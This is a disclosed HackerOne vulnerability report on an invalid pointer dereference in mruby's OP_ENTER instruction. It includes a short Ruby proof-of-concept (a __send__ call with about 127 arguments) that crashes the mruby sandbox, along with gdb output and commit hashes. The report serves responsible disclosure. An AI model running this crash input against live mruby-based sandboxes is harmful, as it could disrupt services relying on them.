 # Invalid pointer dereference in OP_ENTER

## Report Details
- **Report ID**: 218570
- **URL**: https://hackerone.com/reports/218570
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-04T17:02:26.975Z
- **Disclosed**: 2017-04-15T14:45:20.919Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
===
The following demonstrates a mruby/sandbox crash:

    def method_missing
    end    
    __send__ :f,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
   
Debug info
========== 

The crash happens due to an invalid pointer dereference in vm:c:1573:

    1571│       if (argc < 0) {
    1572│         struct RArray *ary = mrb_ary_ptr(regs[1]);
    1573├>        argv = ary->ptr;
    
    (gdb) p ary->ptr
    Cannot access memory at address 0x4000002cb


Test platform
=============
* Linux Mint 17.3 (Cinnamon 64-bit), built with gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3

mruby SHA: bdeb803f04b6bd919202b078a52df7abb0af73ee
mruby-engine SHA: 09be20e67888b20bebf9b0588bc3cbec7f55325f

Thank you,
Dinko Galetic
Denis Kasak

## Attachments
- poc

